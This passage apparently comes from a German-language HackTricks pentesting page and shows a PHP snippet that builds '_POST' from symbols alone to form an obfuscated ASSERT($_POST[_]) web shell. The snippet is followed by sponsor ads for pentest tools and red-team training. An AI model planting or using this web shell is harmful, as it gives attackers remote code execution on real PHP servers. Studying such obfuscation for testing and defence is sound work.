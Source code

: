 ```php
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
<figure><img src="../../../.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Erhalten Sie die Perspektive eines Hackers auf Ihre Webanwendungen, Ihr Netzwerk und die Cloud**

**Finden und melden Sie kritische, ausnutzbare Sicherheitsanfälligkeiten mit echtem Geschäftsauswirkungen.** Verwenden Sie unsere 20+ benutzerdefinierten Tools, um die Angriffsfläche zu kartieren, Sicherheitsprobleme zu finden, die Ihnen ermöglichen, Berechtigungen zu eskalieren, und automatisierte Exploits zu verwenden, um wesentliche Beweise zu sammeln, die Ihre harte Arbeit in überzeugende Berichte verwandeln.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Unterstützen Sie HackTricks</summary></details>
{% endhint %}
